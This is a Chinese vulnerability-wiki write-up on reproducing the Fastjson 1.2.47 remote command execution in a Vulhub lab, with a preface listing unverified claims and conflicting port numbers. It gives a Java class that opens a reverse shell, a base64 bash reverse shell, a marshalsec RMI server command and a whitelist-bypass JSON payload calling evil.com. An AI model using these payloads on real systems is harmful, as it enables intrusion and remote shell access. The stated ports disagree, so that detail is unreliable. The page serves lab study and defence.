


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;1.2.48 claimed; labopenjdk8u102; default parser in Spring lab

代码与实验材料：Full cache payload and shell class; RMIcommand9999 vs text/payload8888 andshelllistener9999 conflict

来源证据范围：360CERT,FreeBuf,marshalsec; Vulhub directory absent

- **结论使用边界（1）**：RMI/payload ports disagree andRMI collides with callback listener。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（2）**：No explicit fix; cache bypass described as whitelist only; actualFastjsonversion lab not pinned in text。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Fastjson 1.2.47 远程命令执行漏洞

## 漏洞描述

Fastjson 是阿里巴巴公司开源的一款 json 解析器，其性能优越，被广泛应用于各大厂商的 Java 项目中。fastjson 于 1.2.24 版本后增加了反序列化白名单，而在 1.2.48 以前的版本中，攻击者可以利用特殊构造的 json 字符串绕过白名单检测，成功执行任意命令。

参考链接：

- https://cert.360.cn/warning/detail?id=7240aeab581c6dc2c9c5350756079955
- https://www.freebuf.com/vuls/208339.html

## 环境搭建

Vulhub 执行如下命令启动一个 spring web 项目，其中使用 fastjson 作为默认 json 解析器：

```shell
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8090` 即可看到一个 json 对象被返回，我们将 content-type 修改为 `application/json` 后可向其 POST 新的 JSON 对象，后端会利用 fastjson 进行解析。

## 漏洞复现

目标环境是 `openjdk:8u102`，这个版本没有 `com.sun.jndi.rmi.object.trustURLCodebase` 的限制，我们可以简单利用 RMI 进行命令执行。

首先编译并上传命令执行代码，如 `http://evil.com/TouchFile.class`：

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.174.128/9999;cat <&5 | while read line; do $line 2>&5 >&5; done"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

也可以使用 bash base64 的方式：

```java
String[] commands = {"bash", "-c","{echo, YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDMuMTQ3LjEyNy85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}"};
```

然后我们借助 [marshalsec](https://github.com/mbechler/marshalsec) 项目，启动一个 RMI 服务器，监听 8888 端口，并制定加载远程类 `TouchFile.class`：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
```

向靶场服务器发送 Payload（此处的 Payload 和 Fastjson 1.2.24 不同）：

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:8888/TouchFile",
        "autoCommit":true
    }
}
```




监听 9999 端口，接收反弹 shell：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
